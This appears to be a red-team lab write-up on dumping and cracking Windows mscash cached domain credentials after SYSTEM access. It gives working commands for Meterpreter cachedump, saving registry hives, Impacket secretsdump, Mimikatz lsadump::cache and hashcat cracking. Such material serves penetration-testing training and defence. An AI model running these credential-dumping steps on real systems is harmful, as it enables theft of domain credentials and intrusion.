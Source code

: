 ```yaml
---
layout: post
title: "dumping and cracking mscash cached domain credentials"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /dumping-and-cracking-mscash-cached-domain-credentials/
---
```


---
layout: post
title: "dumping and cracking mscash cached domain credentials"
date: 2024-06-18
categories: credential-access-and-credential-dumping
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /dumping-and-cracking-mscash-cached-domain-credentials/
---

# Dumping and Cracking mscash - Cached Domain Credentials

This lab focuses on dumping and cracking mscash hashes after SYSTEM level privileges has been obtained on a compromised machine.

`Mscash` is a Microsoft hashing algorithm that is used for storing cached domain credentials locally on a system after a successful logon. It's worth noting that cached credentials do not expire. Domain credentials are cached on a local system so that domain members can logon to the machine even if the DC is down. It's worth noting that mscash hash is not passable - i.e PTH attacks will not work.

## Execution

### Meterpreter

Note that in meterpreter session, hashdump only dumps the local SAM account hashes:

{% code title="attacker@kali" %}
```
hashdump
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-02-02 15-59-09.png>)

To dump cached domain credentials in mscash format, use a post exploitation module `cachedump`:

{% code title="attacker@kali" %}
```csharp
getuid
getsystem
use post/windows/gather/cachedump
run
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-02-02 15-53-09.png>)

### Secretsdump

Impacket's secrestdump tool allows us to dump all the credentials that are stored in registry hives SAM, SECURITY and SYSTEM, so firstly, we need to write those out:

{% code title="attacker@victim" %}
```csharp
reg.exe save hklm\sam c:\temp\sam.save
reg.exe save hklm\security c:\temp\security.save
reg.exe save hklm\system c:\temp\system.save
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-02-02 15-56-47.png>)

Once the hives are retrieved, they can can be pulled back to kali linux to extract the hashes:

{% code title="attacker@kali" %}
```csharp
secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-02-02 15-57-28.png>)

### Mimikatz

```
lsadump::cache
```

![](<../../.gitbook/assets/Screenshot from 2019-03-12 20-32-15.png>)

## Cracking mscash / mscache with HashCat

To crack mscache with hashcat, it should be in the following format:

```csharp
$DCC2$10240#username#hash
```

Meterpreter's cachedump module's output cannot be used in hashcat directly, but it's easy to do it.

Below shows the original output format from cachedump and the format accepted by hashcat:

```csharp
echo ; cat hashes.txt ; echo ; cut -d ":" -f 2 hashes.txt
```

![](<../../.gitbook/assets/Screenshot from 2019-02-02 16-54-29.png>)

Let's try cracking it with hashchat now:

{% code title="attacker@kali" %}
```csharp
hashcat -m2100 '$DCC2$10240#spot#3407de6ff2f044ab21711a394d85f3b8' /usr/share/wordlists/rockyou.txt --force --potfile-disable
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-02-02 16-57-55.png>)

## Where Are Domain Credentials Cached

This can be seen via regedit (running with SYSTEM privileges) in the following key:

```
HKEY_LOCAL_MACHINE\SECURITY\Cache
```

`NL$1..10` are the cached hashes for 10 previously logged users:

![](<../../.gitbook/assets/Screenshot from 2019-02-02 17-03-15.png>)

By nulling out the Data fields one could remove the credentials from cache. Once cached credentials are removed, if no DC is present, a user trying to authenticate to the system will see:

![](<../../.gitbook/assets/Screenshot from 2019-02-02 17-10-00.png>)

## References

{% embed url="https://webstersprodigy.net/2014/02/03/mscash-hash-primer-for-pentesters/" %}

{% embed url="https://www.securusglobal.com/community/2013/12/20/dumping-windows-credentials/" %}



@spotheplanet
